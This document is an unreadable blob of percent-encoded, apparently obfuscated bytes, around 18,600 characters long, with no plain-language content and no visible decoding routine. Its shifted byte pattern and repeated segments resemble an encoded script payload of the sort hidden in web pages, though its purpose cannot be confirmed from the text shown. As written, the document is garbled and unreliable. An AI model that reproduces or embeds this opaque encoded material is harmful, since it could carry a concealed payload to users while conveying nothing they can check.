%1a%2c%69%77%1b%1f%29%25%2e%31%1b%5e%69%6e%6a%6b%35%1b%1f%67%6b%60%31%1b%6d%5f%66%61%60%69%64%36%19%25%1e%2b%2b%6d%76%31%1d%67%68%6d%70%2c%6b%5f%6f%62%69%77%30%1d%6a%5e%6d%6f%2c%66%63%68%62%63%35%1a%63%6e%69%77%29%76%68%67%65%63%71%34%1a%32%29%2f%30%1c%69%62%6d%63%77%64%69%6c%37%19%6d%66%68%58%79%67%74%66%36%1e%70%28%60%69%67%61%71%3f%1e%33%32%36%1e%7f%2b%58%6b%59%5d%69%61%5f%73%66%6f%59%69%60%6b%71%66%6e%2c%57%69%66%72%1d%75%1a%5f%6e%77%2e%6f%60%7f%67%6c%64%37%1e%58%6a%6b%63%66%6e%2c%57%69%72%30%1d%6e%6d%6e%60%73%62%6b%6f%3f%1e%68%66%69%5f%76%64%77%62%30%1c%76%6c%62%76%63%37%1e%2b%2d%29%22%30%1c%5b%54%5d%61%64%6f%69%77%6b%65%35%1b%1f%29%25%2e%31%1b%65%63%63%62%61%73%31%1c%5a%54%6a%59%23%2c%2e%2a%73%61%1f%2e%1c%37%25%6e%72%22%36%1e%6d%73%64%6d%65%68%6e%7a%34%1a%63%64%62%66%60%6f%34%1b%79%0c%0f%1d%76%6e%60%75%6a%6a%6a%66%77%65%6e%63%34%1a%65%64%76%67%61%32%75%2e%65%6f%69%63%72%31%1d%37%33%34%30%36%32%35%30%3e%5c%6d%77%71%69%6f%37%19%32%2b%6c%71%3e%6c%63%64%65%72%30%1d%2b%32%6b%74%32%7a%67%66%77%65%34%1a%31%31%6f%73%37%61%68%67%65%63%71%34%1a%31%31%6f%73%37%75%68%76%76%2e%5c%6a%63%62%6f%35%1b%5f%64%63%72%67%69%36%5c%6d%6f%65%62%69%29%6b%54%62%63%76%6e%34%1a%30%29%22%30%5e%58%56%65%65%69%6a%73%6c%61%2c%5c%6c%68%6e%67%34%1a%18%2d%2e%32%35%5a%5c%30%5f%74%67%6d%6d%69%37%1e%6a%6a%60%69%77%61%6b%3e%62%63%68%6d%6a%5b%74%33%1f%6d%6b%6f%68%35%7f%18%71%6b%67%5a%6c%62%68%6f%58%6a%63%71%77%60%76%76%28%58%6b%62%63%6f%3f%1e%68%62%62%66%76%36%69%68%68%65%75%6c%69%6c%31%1d%5f%58%6e%6e%6b%76%70%64%3e%5c%6d%77%71%69%6f%37%19%31%29%6c%71%3e%6c%63%64%65%72%30%1d%2c%2e%2b%6c%71%3e%71%63%67%71%66%30%1d%2b%32%2b%6c%71%3e%6e%5b%67%61%67%6c%62%33%1f%2a%2c%69%7d%35%58%5a%5e%65%65%6f%6e%72%6d%60%33%15%71%62%62%71%63%31%5f%6e%6d%67%61%6b%20%6c%5b%67%64%73%69%37%19%33%6b%74%32%57%69%72%2e%6e%66%5b%61%6e%70%31%1c%29%15%2c%6a%73%1d%33%6a%75%19%6d%64%5e%21%25%1e%2a%1b%2d%27%31%71%6b%5e%6d%6f%60%79%67%6d%6d%37%1e%6d%6d%58%5c%62%70%70%15%28%37%68%1d%63%5b%6e%64%2a%62%6a%7c%16%72%6f%66%5a%6b%67%6e%6a%5e%64%61%33%54%60%76%66%6f%2a%19%71%6c%62%5c%69%64%66%6d%5b%64%60%34%58%60%67%68%69%61%72%56%69%6c%77%60%68%76%37%26%20%30%6c%6e%66%67%76%62%6a%68%30%5c%5b%6c%6c%68%74%79%63%31%59%6a%72%76%6a%6c%35%2e%2e%28%65%76%31%69%64%61%62%71%33%2d%28%6c%71%3e%5c%6d%69%61%63%68%28%6a%73%72%68%64%3f%6d%6d%6f%64%62%31%65%64%66%64%64%75%3f%2e%31%74%64%62%76%65%33%2f%30%5e%6e%67%62%67%69%28%71%63%61%75%67%31%2d%29%65%76%31%59%6a%6c%66%60%6b%2a%58%6b%6d%62%6c%30%77%6f%5f%6c%6e%69%5e%69%61%6f%79%7b%19%77%68%63%5d%68%64%6c%68%5d%66%68%34%5b%65%71%63%68%76%5b%68%69%60%64%67%2b%76%6c%6d%2b%59%6a%6d%68%69%36%1a%6b%60%64%30%5f%69%76%71%6e%6a%31%29%2b%25%6e%72%7e%1e%72%6f%60%19%6c%75%63%72%60%5f%68%64%64%68%2f%71%6e%6f%31%2d%2a%65%76%7f%18%71%6b%67%5a%6c%62%68%6f%58%6a%63%1a%6b%76%6a%67%71%75%62%69%29%6a%65%5f%59%62%6b%61%30%1d%2c%29%36%6c%71%3e%6b%5b%69%62%67%6c%37%34%6f%73%1c%29%15%2e%31%65%6a%68%76%28%6a%66%71%61%33%24%2c%6a%73%36%5d%6d%69%6e%6d%31%1f%31%68%36%67%33%60%35%76%60%71%73%2e%5d%6d%6c%61%6c%31%6f%67%65%65%75%7a%18%70%6c%68%59%6f%66%6e%6d%5b%62%64%1f%5a%77%6c%54%6c%65%62%6b%34%1a%33%69%77%1b%32%69%7d%1e%2a%1b%2d%35%59%6a%6d%68%69%36%19%16%40%44%45%36%5c%5b%5e%62%60%69%6b%74%63%62%30%1b%1e%2e%2a%35%31%5c%58%37%5b%62%6c%66%66%6f%2b%68%5c%65%66%76%6f%33%15%33%6a%73%36%62%63%6e%69%6b%5a%75%33%15%67%6c%6f%64%68%67%28%5b%6b%6c%5f%62%3e%6e%5b%67%61%67%6c%62%33%1f%29%6c%71%15%31%6a%73%36%72%67%75%75%2a%67%61%5a%62%6c%5b%77%64%69%6c%37%19%69%6c%6a%64%70%28%59%6f%6a%6d%69%5c%6d%62%69%70%72%65%69%69%62%71%67%6d%6b%33%1f%5a%5e%6a%62%6a%77%77%60%35%6e%60%67%73%31%1c%2c%24%2e%6a%73%36%72%6d%6d%33%1f%2e%2d%29%65%76%31%59%6a%6c%66%60%6b%2a%69%5d%65%6c%73%69%31%1d%33%2a%20%32%5c%76%6e%6a%62%6c%30%1b%6d%69%63%6b%75%62%69%37%5b%54%5d%61%64%6f%69%77%6b%65%35%1b%1f%67%6b%60%31%65%6a%68%76%28%6a%66%71%61%33%15%2f%2a%6b%75%35%75%64%65%73%63%36%19%27%2e%6a%73%36%66%67%64%66%67%77%36%19%27%2e%6a%73%36%5c%6d%6f%65%62%69%36%19%66%69%6e%62%61%1e%2b%6d%71%1f%18%60%30%69%37%66%32%36%62%63%6e%69%6b%5a%75%33%15%67%6c%6f%64%68%67%28%67%6b%66%74%32%54%6a%63%64%6b%2b%63%71%64%6a%68%36%19%56%63%6c%77%60%6c%31%67%74%6c%77%65%67%7c%2b%59%6c%6b%72%67%6b%75%35%1b%5f%64%63%72%67%69%78%0b%00%2b%75%68%6e%5e%6e%61%72%74%70%5f%5f%59%66%66%6d%6c%71%6f%69%34%19%65%63%60%1a%6b%6e%69%66%1c%6b%68%6e%67%5a%71%1e%69%5e%6b%68%6f%68%19%25%1e%2a%30%5f%69%68%61%64%6d%31%2d%69%7d%1e%69%6c%69%67%66%1d%1a%63%2b%5f%5b%56%5c%31%59%6a%6c%66%60%6b%2a%69%5d%65%6c%73%69%31%2b%33%67%68%32%5c%6c%68%6e%67%34%19%58%2c%2c%58%2f%5b%34%67%65%6a%65%6a%5b%72%37%67%6c%69%60%69%66%29%5b%61%69%59%60%36%60%6d%6b%75%35%59%6b%6d%69%1e%2b%36%6d%76%1a%3c%6b%66%5a%68%2d%66%5f%6c%68%28%6d%67%6f%60%61%30%69%58%67%61%63%6d%37%2f%6a%75%32%6a%62%6a%2c%7a%67%66%77%65%34%33%2d%69%77%30%6c%58%69%62%63%6d%62%34%32%6d%71%1f%36%6c%71%3e%72%67%73%71%2b%5b%69%60%60%6d%36%5a%68%68%76%66%6f%35%76%60%71%73%2e%60%64%56%69%68%5a%71%67%6d%6b%33%69%6c%6a%64%3e%62%63%68%6d%6a%5b%74%33%69%6c%6a%64%70%28%76%6c%68%5c%6d%69%75%71%31%64%6e%7b%63%68%70%5f%69%68%61%64%6d%2e%5f%6e%61%69%68%31%1e%60%64%63%32%5d%6c%74%2c%66%66%5b%67%6a%71%30%2d%19%2e%6b%74%19%26%6e%72%1b%6f%61%58%5c%21%2d%2a%31%2d%15%33%34%2f%1d%33%34%29%19%2f%2d%32%20%3e%5d%6d%6f%6a%6c%30%1e%64%5c%2b%62%29%6b%7b%2c%68%71%6c%67%5c%6c%66%6d%63%75%7b%1e%71%59%5c%5d%61%62%6b%68%76%6a%65%3f%1e%19%66%5e%2e%64%2d%67%1f%1b%6a%6e%63%63%1a%69%60%6e%67%5c%75%1f%68%5f%6b%62%6a%6e%1b%2d%1e%2a%36%5b%68%69%60%64%67%34%1a%2a%6d%76%1a%6e%6e%6b%62%60%19%16%60%64%65%36%5c%6d%6f%65%62%69%29%6b%54%62%63%76%6e%34%1a%2d%2f%2c%66%69%32%57%69%72%2e%6e%66%5b%61%6e%70%31%1c%29%15%33%6a%73%1d%33%6a%75%19%2a%28%6c%71%15%1d%64%65%32%5d%35%5e%32%63%62%6f%69%61%5f%73%31%1d%67%6c%69%60%69%66%29%5b%61%69%59%60%36%60%6d%6b%75%35%1b%5e%6e%61%62%1a%2a%35%6e%72%1d%38%6d%62%5d%6d%21%6d%5b%6d%6e%2b%69%60%6b%66%65%37%5a%62%6a%6d%69%37%1e%19%63%67%61%30%69%58%67%61%63%6d%37%1e%29%6d%71%34%6e%65%6f%20%71%63%67%71%66%30%1d%28%36%2b%6c%71%3e%6e%5b%67%61%67%6c%62%33%1f%28%6c%71%15%2d%6a%73%36%72%67%75%75%2a%5a%68%60%6a%68%30%1b%5e%63%6c%71%64%6d%30%70%64%7d%72%2f%67%60%5d%6d%6f%58%73%62%6b%6f%3f%1e%6c%6c%6b%63%31%61%60%6c%6b%68%58%7c%34%58%6f%6a%5d%61%78%2f%58%29%63%6f%52%1e%71%59%5c%5d%61%62%6b%68%76%6a%65%20%5d%6d%6f%6a%6c%30%1d%1a%2e%2a%2d%28%24%2f%31%58%6a%6a%6d%6f%33%1f%18%62%67%6b%35%6a%5a%61%62%63%6b%66%2a%59%6b%75%79%69%6f%31%1d%30%37%2b%30%22%30%6c%6e%66%67%76%62%6a%68%30%1d%6b%62%6f%5d%75%6c%70%67%30%71%63%72%71%2c%5e%6f%65%66%63%34%1a%58%60%68%76%60%6b%34%77%61%71%79%2b%69%63%5c%62%6d%72%33%1f%2a%6c%71%15%2f%6a%73%1d%2e%1a%6f%66%5d%5a%24%2b%25%2a%1a%29%2f%2a%1a%2f%37%2b%1b%2c%2f%26%27%31%7e%2b%5d%62%5c%6f%62%6f%77%5b%62%6c%66%66%6f%34%2b%6d%71%1f%68%6b%6d%6c%62%1a%18%63%2c%35%2c%36%2e%30%5e%6e%67%62%67%69%28%6c%5b%61%60%72%68%36%2a%65%76%31%59%6a%76%2f%6e%61%5e%67%6b%76%3f%2e%1a%36%6d%76%1a%30%69%77%1b%29%2a%65%76%1a%18%63%60%37%34%34%36%30%6c%58%69%62%63%6d%62%34%37%6d%71%34%6e%5d%6b%6a%67%6c%31%2c%6e%72%1d%29%34%77%61%71%79%2b%5b%6f%64%61%6c%37%5a%62%6d%70%64%67%7b%2c%58%65%5f%6c%60%6d%6a%6c%5e%72%57%69%68%67%60%6c%30%2c%69%77%1b%6f%6e%61%67%66%1b%1e%60%28%32%28%30%2a%37%5b%62%6c%66%66%6f%2b%68%5c%65%66%76%6f%33%26%6e%72%30%5f%69%72%28%6a%67%5a%60%6e%7a%34%2a%1b%30%6e%72%1d%34%6f%73%1c%2c%26%6e%72%1b%1e%60%64%30%30%32%32%37%69%54%62%66%62%6b%61%30%30%69%77%30%69%58%67%61%63%6d%37%2f%6a%75%19%2f%30%70%64%7d%72%2f%5a%69%67%65%6b%33%5c%66%6a%75%68%6c%31%67%64%6d%6a%69%58%76%31%6a%6e%63%63%7f%2d%6e%72%68%60%58%6a%62%6a%66%79%70%30%63%6a%70%67%6f%19%74%59%6b%6b%69%63%68%2e%5e%69%6e%6a%6b%35%1b%1f%5a%3b%5d%34%58%33%35%58%6a%71%2a%68%64%58%69%69%75%31%1d%2e%1a%2c%69%77%1b%2e%69%7d%1e%68%64%5f%5f%22%2d%2d%1f%2b%28%19%25%2a%1a%2b%2b%2f%37%24%32%5c%6c%68%6e%67%34%1a%18%63%60%64%36%7c%29%59%6b%71%20%72%63%77%69%63%71%5f%6e%6d%67%61%6b%20%6c%5b%67%64%73%69%37%35%6f%73%1c%29%15%2e%31%59%6a%6c%66%60%6b%2a%59%6b%75%79%69%6f%31%2f%6e%72%1d%6a%68%6f%65%65%15%1d%66%28%2f%33%2b%60%32%6f%5a%60%65%6c%68%65%31%2d%35%6a%6a%6a%66%77%65%6e%63%34%68%66%69%5f%76%64%77%62%30%6b%77%68%6c%64%6f%6a%71%30%65%60%63%67%61%6f%70%28%63%65%6f%5f%6f%60%69%6b%5a%75%72%57%69%76%77%6a%6b%30%2d%32%5c%6c%68%6e%67%34%19%65%63%60%31%63%6e%69%77%29%6a%6c%74%67%31%2c%32%6a%75%32%67%66%65%66%6d%72%30%2a%2d%2e%6a%75%32%6b%66%62%75%3f%2e%31%6e%5c%6c%65%64%6f%35%5a%71%75%62%35%6a%5a%61%62%63%6b%66%2a%59%6b%75%79%69%6f%31%2e%33%6a%75%32%6f%6c%6f%60%79%67%6d%6d%37%5f%58%6e%6e%6b%76%70%64%3e%6c%63%64%65%72%30%2d%32%73%6c%6c%33%20%2d%2a%6b%75%35%75%64%65%73%63%36%31%25%23%31%77%60%76%76%28%58%6b%62%63%6f%3f%5d%67%6d%71%63%68%78%39%6a%66%60%60%54%1e%69%58%6f%63%67%6b%19%5e%6d%60%19%2d%6b%63%6d%28%62%67%73%60%5c%66%29%76%6c%62%76%63%37%1e%32%2d%29%6f%73%25%72%16%6a%63%6d%66%6b%6d%5f%60%6b%66%77%5a%61%63%5b%69%37%5c%6d%71%61%34%65%68%6e%54%72%30%6f%60%60%76%36%6c%5e%69%63%60%63%34%2b%2b%6d%76%1a%5c%74%73%6c%1c%34%65%76%1a%29%2d%6e%72%36%76%66%67%70%61%3f%2c%32%26%36%62%63%6e%69%6b%5a%75%33%63%69%6c%66%78%28%1a%08%03%2a%2e%3a%3d%22%6d%76%72%69%63%3c%08%03%3b%68%70%70%61%63%1a%77%74%6e%67%38%26%73%66%74%75%22%5d%69%68%22%38%2c%68%6e%5d%62%68%64%15%1d%76%6e%60%1e%71%61%60%6c%6b%68%58%7c%34%1a%59%69%69%59%66%32%7a%1b%2a%6c%62%5c%63%6f%60%1e%2c%5c%6d%5d%5a%6c%6d%54%77%67%69%5a%70%63%61%64%68%68%5b%5a%6d%5f%6c%6d%60%6a%6a%5e%19%29%59%71%75%79%69%6c%6b%5e%1e%71%61%60%6c%6b%68%58%7c%34%6c%6c%6b%63%7f%1d%2f%6a%6c%5e%60%61%63%1a%2d%5c%6a%58%5c%69%6b%5a%75%64%67%59%74%62%61%63%6d%6e%5e%5c%63%5d%6f%63%63%6e%1b%2b%5c%77%71%75%68%6d%1c%72%69%67%69%6b%69%5f%73%37%5b%6b%6c%5f%62%70%1e%2c%6e%6a%5c%63%69%64%1f%2d%6f%75%67%63%5b%6e%64%68%65%71%77%1f%70%6c%58%69%62%63%6d%62%34%28%2d%69%77%1b%2d%34%65%76%31%67%64%6d%6a%69%58%76%31%5e%6d%62%5d%61%7e%2b%6b%6d%5f%60%6b%66%1c%2f%79%69%6f%59%6a%6a%76%73%19%74%6e%65%6f%20%71%63%67%71%66%30%2c%29%2f%6b%74%32%65%5f%66%67%64%68%65%37%2b%2f%6b%74%19%24%33%6a%73%36%62%63%6e%69%6b%5a%75%33%57%6a%6d%58%66%7b%2c%68%6e%5d%62%68%64%15%28%59%63%5c%68%67%69%6c%68%59%1c%72%69%67%69%6b%69%5f%73%37%5b%6b%6c%5f%62%70%28%6f%6c%5f%67%6e%60%19%29%58%64%58%63%63%6e%1b%76%62%63%6e%69%6b%5a%75%33%57%6a%6d%58%66%7b%2c%68%6e%5d%62%68%64%15%1d%69%60%6a%6c%1a%76%65%66%68%6c%6d%54%77%30%59%69%69%59%66%7c%29%6e%6b%5b%6c%6a%67%1b%1e%6a%63%73%64%1f%70%60%60%66%6e%6e%5a%74%34%58%69%6e%5c%60%37%69%54%62%66%62%6b%61%30%28%2a%6f%73%1c%29%70%28%6f%6c%5f%67%6e%60%19%1c%62%6b%6f%15%75%66%62%6e%6e%6e%5c%70%35%59%68%6e%56%65%7f%2d%68%69%58%64%6d%62%1b%1f%75%7b%6b%6d%59%1d%75%66%64%6a%6f%6f%5d%70%3f%1e%58%6f%6a%5d%61%36%7c%1f%2d%69%6e%57%67%6e%66%1d%1d%76%73%65%62%68%67%19%7e%62%63%68%6d%6a%5b%74%33%1f%6d%6b%6f%68%35%7f%2d%68%69%58%64%6d%62%1b%1f%75%7b%68%6d%6c%6b%6d%2f%5e%6e%69%77%61%6f%79%6d%71%74%64%62%76%65%33%2e%2b%2c%24%70%28%6f%6c%5f%67%6e%60%19%1c%59%68%6e%6a%2b%6a%5a%62%63%68%76%76%66%67%70%61%3f%5f%77%77%6a%35%6a%5c%65%63%62%6a%66%3f%33%6a%73%36%6b%5b%6f%66%66%6d%36%34%65%76%7f%2d%68%69%58%64%6d%62%1b%2a%69%62%6d%76%2e%5f%69%66%74%19%66%6e%63%2d%23%6b%6d%59%64%6a%67%1d%2f%6f%6c%6f%75%20%5c%6d%67%74%1e%63%63%6b%5e%6e%61%2d%23%6b%6d%59%64%6a%67%1d%2f%6f%6c%6f%75%20%5c%6d%67%74%1e%67%68%5b%62%67%77%6c%54%76%2f%74%64%62%76%65%33%2e%2b%2c%24%70%28%6f%6c%5f%67%6e%60%19%68%59%66%64%56%72%71%74%64%62%76%65%33%2e%2b%2c%24%70%3a%2d%68%71%77%6e%60%3f%0a%01%09%03%31%29%62%66%5c%62%3c%39%18%2a%2e%38%61%68%5f%66%3d%08%04%3e%69%60%69%60%1c%61%67%63%64%3e%22%66%76%71%69%6c%31%2b%2e%7a%71%75%2d%5f%6a%6d%62%66%62%69%2a%5a%62%6b%2d%68%71%5f%76%64%5a%28%75%2d%2e%7a%67%66%64%60%72%69%2a%2a%36%35%2e%35%3b%37%33%37%2c%2b%75%64%65%60%66%70%5e%56%6d%69%5c%68%69%58%64%6d%62%5c%5e%74%63%62%6e%66%2b%5d%69%6e%26%1f%69%61%6d%30%21%69%77%74%6a%67%6e%61%62%66%70%26%15%72%73%6b%60%3b%25%71%64%77%77%2b%5a%66%6d%25%2c%3b%0b%00%39%6d%66%6d%67%19%6d%6c%67%65%38%21%62%71%75%6f%68%36%2e%22%71%75%74%2b%5c%6e%6a%66%60%66%6e%2f%56%69%6f%2c%61%77%6c%28%5a%6c%68%2b%58%78%72%62%6c%6f%67%70%5c%75%66%6c%6a%2f%56%6d%69%3c%71%5f%68%62%64%73%39%68%6e%6a%47%46%3e%32%2c%29%2d%30%31%37%33%30%27%32%28%34%33%2c%37%30%31%32%25%5d%6c%65%35%70%73%38%37%33%5e%65%37%67%60%64%20%33%2a%2a%34%2b%36%2c%34%36%2e%5e%31%25%2c%2f%58%2d%2c%64%63%36%30%32%62%35%54%32%25%1b%68%63%66%64%58%3a%24%6a%6e%63%63%25%1b%6a%68%6e%6a%58%63%3e%23%60%6b%26%6f%66%61%67%5b%1c%3c%21%18%2f%30%3e%5f%6e%6f%23%1d%29%34%32%26%6e%61%65%6c%5f%3f%25%1e%2d%33%36%58%6b%6f%22%1a%26%37%31%24%1d%6c%67%69%3c%20%68%70%70%61%63%69%63%60%63%76%22%2e%39%3f%6a%6e%66%5d%68%62%6d%72%3c%39%6d%66%6d%67%19%6d%6c%67%65%38%21%62%71%75%6f%68%36%2e%22%71%75%74%2b%5c%6e%6a%66%60%66%6e%2f%56%69%6f%2c%61%77%6c%28%5a%6c%68%2b%58%78%72%62%6c%6f%67%70%5c%75%66%6c%6a%2f%56%6d%69%3c%71%5f%68%62%64%73%39%68%6e%6a%47%46%3e%32%2c%29%2d%30%31%37%33%30%27%32%28%34%33%2c%37%30%31%32%25%5d%6c%65%35%70%73%38%37%33%5e%65%37%67%60%64%20%33%2a%2a%34%2b%36%2c%34%36%2e%5e%31%25%2c%2f%58%2d%2c%64%63%36%30%32%62%35%54%32%25%1b%6f%63%6e%38%26%6c%77%75%6d%68%6d%62%66%60%72%25%2a%3f%3b%2c%6a%6e%66%5d%68%62%6d%72%3c%08%03%3b%6e%61%75%54%1e%6c%5a%68%63%3f%22%66%68%6c%63%6d%68%2b%5b%67%6e%63%6c%6e%64%2a%6b%68%58%79%60%6d%69%68%2b%5b%5e%5a%68%76%6a%75%2a%1e%59%6c%6b%72%67%6b%75%3a%24%5f%58%20%66%6d%68%71%2b%6a%70%5b%2a%2a%31%34%3b%2c%28%28%2e%33%37%2c%2a%36%2a%2c%30%2a%29%3c%0e%07%3a%6f%60%75%5e%1b%6a%58%60%63%3f%24%62%69%6d%62%6d%62%2e%5d%65%66%63%6c%68%60%2b%6a%69%58%73%65%6b%6b%60%2b%66%6c%68%5f%63%6b%26%1f%58%6b%6f%79%63%6c%77%38%21%58%69%6e%60%68%6c%6e%79%28%59%6c%68%21%2d%3b%0c%05%0e%06%3d%22%66%67%5a%61%38%2f%28%3f%0a%01%38%5b%62%62%73%1b%5e%6a%5b%6e%6a%3a%24%68%6e%54%62%63%6d%62%1e%6f%6a%5b%66%6f%61%26%33%0b%00%3f%61%67%74%1d%60%63%3e%23%75%7b%68%6d%6c%6b%6d%2f%5e%6e%69%77%61%6f%79%6d%25%3d%39%62%63%73%19%66%67%39%26%79%70%6c%6c%6a%68%69%28%6c%5e%62%6a%26%33%3a%66%62%73%1e%59%69%58%6c%68%39%26%60%5f%63%6d%1d%6d%67%5e%75%66%6c%6a%26%15%67%66%3e%22%6b%5b%64%6f%20%3d%38%65%6c%70%1a%58%69%5f%69%6e%3c%20%74%65%65%6a%63%76%1b%3f%6a%6d%62%26%1f%67%5d%75%54%2b%74%66%6f%6d%63%6a%6f%3a%24%2d%26%15%67%66%3e%22%3c%6e%6a%66%2e%24%3a%3d%69%67%74%1b%5e%6a%5b%6e%6a%3a%24%5e%6b%68%5f%66%58%6f%73%6f%5f%6a%20%3d%38%6a%65%5f%6c%3d%39%5f%1a%65%6b%62%65%39%26%6d%72%76%6b%37%29%2d%72%76%70%2d%6e%60%63%61%69%77%73%28%69%64%75%62%2c%3b%6c%30%2f%25%1b%6f%63%6e%38%26%73%5a%63%26%33%46%6d%6e%60%3a%2d%5c%3f%3b%2c%6f%69%54%68%3c%1b%23%1d%2b%35%36%34%1b%38%6a%65%5f%6c%3d%69%67%74%60%19%6c%6b%6b%75%7b%3a%2d%68%6d%5f%6c%3b%3d%28%67%65%77%33%0b%00%3f%61%67%74%1d%5a%6b%5a%6f%6a%30%21%58%6f%6a%61%2f%6d%6e%6c%77%6f%19%6d%60%67%66%61%21%3c%08%03%3b%1a%29%2c%36%5f%6c%24%71%1e%64%64%6f%63%1b%6f%74%57%6d%76%62%71%73%76%64%6e%69%1b%62%6e%67%1e%76%5a%62%1e%51%61%64%61%5a%71%6d%79%3f%66%48%71%5f%68%71%5c%2a%2e%3a%0c%0f%3a%66%62%73%1e%59%69%58%6c%68%39%26%65%69%69%77%1d%66%67%6b%75%6d%72%23%3f%31%5f%1a%6d%5c%6b%67%38%26%33%29%35%36%25%2e%2a%29%32%32%32%2e%28%31%37%30%29%27%36%25%3d%39%29%5b%3b%3d%67%2a%1c%5a%61%5f%69%68%38%21%67%6b%75%6d%72%29%75%6c%72%6e%66%22%38%6e%64%77%62%1b%6f%69%62%72%74%3f%2a%66%2b%3b%0c%05%3f%60%60%7b%1e%59%6f%5c%6d%69%38%26%6f%6c%6f%75%20%5c%6d%67%74%1e%67%6b%75%6d%72%29%5a%62%68%76%66%6b%72%25%3b%0c%05%3f%6f%5a%67%67%6a%77%1d%72%73%6d%64%3a%19%70%64%7d%72%2d%61%5c%70%5b%6e%5a%6d%62%6c%75%17%1e%69%69%5e%3b%18%65%75%73%6b%6f%33%22%29%59%67%6b%28%60%6e%65%62%6f%65%77%67%28%6c%66%71%29%59%69%58%6f%6b%6e%2e%61%5f%76%66%6e%72%2d%5e%6d%5e%6b%6c%6b%23%6b%63%6d%2b%64%69%1f%3f%3b%2c%6f%5a%67%67%6a%77%3b%0b%00%08%03%3b%68%5f%6b%6c%6e%76%1b%71%77%6a%60%3c%1d%77%61%71%79%29%60%5a%73%5f%69%5e%6b%66%6b%70%1b%15%6d%68%58%38%1c%62%71%75%6f%68%36%2e%22%5d%66%6d%2b%64%69%61%64%6b%62%72%6b%23%68%67%77%2a%5d%6e%5c%69%6f%69%2a%6d%68%70%67%6f%28%6d%67%69%64%5c%77%6b%6b%22%6a%5b%77%60%6d%76%2a%6d%62%75%61%6d%20%6d%67%6f%60%5d%76%6a%6b%29%6e%65%6f%23%64%69%19%3b%3a%2d%6e%5a%6d%62%6c%75%33%0b%00%3f%6e%5d%68%64%69%73%1b%6f%6b%56%3b%18%63%71%72%6a%6e%33%28%2c%5f%65%63%28%60%68%61%63%6e%64%77%6d%2d%6a%64%79%29%65%63%2a%5d%6e%5c%69%6f%69%2b%5a%61%5f%6a%6b%6f%3e%6e%5c%75%62%68%70%2e%69%67%69%77%2a%5d%6e%5c%69%6f%69%2a%6c%6c%68%2c%61%6e%1c%3c%39%2e%6c%58%6e%60%65%72%3c%0e%07%3a%69%5e%6b%66%6b%70%19%66%6c%59%3e%1f%29%2d%5e%65%69%2d%66%6a%69%63%6e%62%73%6c%2c%6b%64%73%2c%63%61%22%5d%6e%5a%6d%6e%68%2a%5a%6b%5a%6c%69%67%2b%6e%66%73%63%6e%28%6a%62%6f%61%5a%79%69%68%2e%6d%6a%77%62%60%69%3b%68%58%79%63%69%77%2a%62%63%6e%75%28%6f%61%77%68%6a%2f%68%60%6a%67%5e%75%68%69%2a%6c%6c%68%2c%61%6e%1c%3c%39%2e%6c%58%6e%60%65%72%3c%0e%07%3a%66%64%77%1f%62%60%3c%17%6e%6e%5a%74%63%68%1f%3f%3b%2c%60%60%7b%38%0f%01%39%6d%59%6f%60%6f%77%3a%0c%0f%70%5b%69%1d%6e%6e%5c%70%62%69%39%6f%68%71%1a%38%69%5f%6a%6d%6b%29%4b%68%58%7c%63%68%0e%07%26%71%6e%6e%72%69%5f%64%3f%1c%62%77%71%6e%69%37%2e%28%6b%71%6d%61%28%72%62%6b%74%62%6a%6f%60%61%65%75%78%5f%6c%2d%5e%69%6f%2a%6d%66%75%61%2e%66%62%2f%2a%28%2d%32%2d%31%31%2b%2e%2f%60%2d%77%33%1f%2a%6a%69%74%60%62%6a%6a%3f%55%4e%66%73%63%6e%4e%64%6b%66%5f%75%62%6c%5f%2f%6d%5f%68%60%6f%73%42%60%33%17%1d%6a%6f%5c%77%67%6f%1b%2b%74%65%65%79%66%30%19%2c%2e%2a%20%1b%2b%63%61%60%6a%66%76%31%1f%30%2a%2d%69%77%19%28%61%6c%62%67%4e%60%62%63%5c%3a%68%6d%70%6b%62%6a%30%1a%2d%2a%5b%70%75%68%4b%68%58%7c%34%1b%2b%78%27%31%08%03%3b%2c%6f%5a%67%67%6a%77%3b%0b%00%39%65%66%75%1c%6a%79%77%6e%66%38%21%59%69%64%5e%69%36%19%57%69%76%63%36%21%3c%39%2e%63%62%72%3f%00%04%3e%2c%61%67%74%3b%0c%05%3f%2b%65%6c%70%3c%0e%07%3a%1b%28%2c%3c%5a%6a%26%79%1e%64%62%6b%62%1a%6e%74%5d%68%70%60%79%73%76%62%6a%68%1a%63%6e%6d%1b%70%58%6a%1e%51%5a%61%43%6c%61%5c%2a%2e%3a%0c%0f%3a%2d%67%64%70%3c%08%03%3b%67%65%77%15%5d%6e%5a%6e%6d%3f%22%5b%6b%6c%63%2c%65%5f%65%66%6f%21%1a%64%65%3a%24%5e%6d%62%61%2f%6b%5c%61%67%6f%26%39%3f%2b%65%6c%70%3c%3f%61%67%74%1d%5a%6b%5a%6f%6a%30%21%59%6f%60%5f%68%22%3f%3b%2c%60%60%7b%38%3e%2c%61%67%74%3b%3d%28%67%65%77%33%0b%00%3f%2a%62%63%73%3f%0a%01%38%6a%56%6c%63%6b%71%38%0f%07%19%1f%1b%1c%19%15%1e%1a%2c%2a%1e%39%6a%65%62%1b%40%64%7b%63%6e%6c%6d%63%66%1d%5b%76%1b%3e%6d%62%61%56%69%64%61%65%60%6b%6c%1b%50%64%54%6b%1a%6e%60%6b%58%60%6b%6c%0e%06%19%15%1e%1a%1b%1d%1e%1a%72%60%69%67%6b%76%23%69%6c%6f%6a%5f%66%1d%3c%1f%65%71%6f%56%72%63%6c%6b%26%23%1d%72%0a%01%1c%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%67%6b%5a%78%6b%67%6d%71%28%5b%61%65%42%75%61%6f%79%4a%63%68%71%63%6c%60%6b%27%19%5f%6e%63%72%67%73%71%6b%67%6b%74%1d%2f%1c%67%78%68%59%77%64%69%6c%25%64%26%1b%77%0c%0f%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%1c%19%15%1e%1a%1b%60%28%6a%6f%64%71%66%6a%75%49%63%64%5a%70%6a%76%25%20%34%0e%06%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%79%2d%15%60%5b%6f%6e%63%23%36%0c%05%0e%06%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%62%74%63%5d%76%62%6a%68%1a%61%60%6c%5a%5e%6d%68%62%47%75%60%68%76%25%64%26%1b%77%0c%0f%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%1c%19%15%1e%1a%1b%64%60%1a%25%64%29%68%70%6e%65%4e%68%6c%6d%5f%65%5c%75%66%6c%6a%20%15%75%0f%01%1d%1e%1a%1d%19%1f%1b%1c%19%15%1e%1a%1b%1d%1e%1a%1d%19%1f%1b%61%